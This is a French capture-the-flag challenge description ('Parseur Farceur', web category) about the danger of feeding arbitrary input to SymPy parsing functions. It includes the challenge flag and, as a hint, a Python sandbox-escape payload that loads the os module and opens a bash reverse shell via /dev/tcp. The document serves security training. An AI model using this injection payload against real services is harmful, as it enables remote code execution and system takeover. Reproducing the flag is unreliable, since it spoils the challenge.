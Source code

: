 # Parseur Farceur

| Catégorie  | Web      |
|------------|----------|
| Difficulté | Facile 😊 |
| État       | A tester 🎯 |

## Description
Utiliser des fonctions de [SymPy](https://docs.sympy.org/latest/index.html) avec des données arbitraires ne présente aucun risque, si ?

## Sources
[sources.zip](https://github.com/CyberNight-Efrei/CYBN-2024/blob/main/Web/Parseur%20Farceur/sources.zip)

- Auteur : Romain

## Flag
||`CYBN{Wh@t_A_cRAzy_PaRS3r}`||

## Piste
|| `().__class__.__base__.__subclasses__()[120].load_module('os').system('bash -c "sh -i >& /dev/tcp/127.0.0.1/8443 0>&1"')` ||
